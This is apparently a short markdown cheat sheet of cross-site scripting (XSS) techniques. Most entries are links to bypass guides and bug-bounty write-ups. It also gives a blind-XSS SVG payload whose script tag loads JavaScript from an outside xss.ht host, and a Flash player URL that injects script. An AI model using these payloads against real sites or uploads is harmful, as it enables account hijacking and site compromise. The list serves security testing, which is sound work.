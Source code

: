 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```
## 7. Flash Based Reflected XSS
```
http://www.domain.com/jwplayer/player.swf?playerready=alert(document.domain)
```
https://hackerone.com/reports/859806

## 8. XSS in .Net
https://blog.isec.pl/all-is-xss-that-comes-to-the-net/






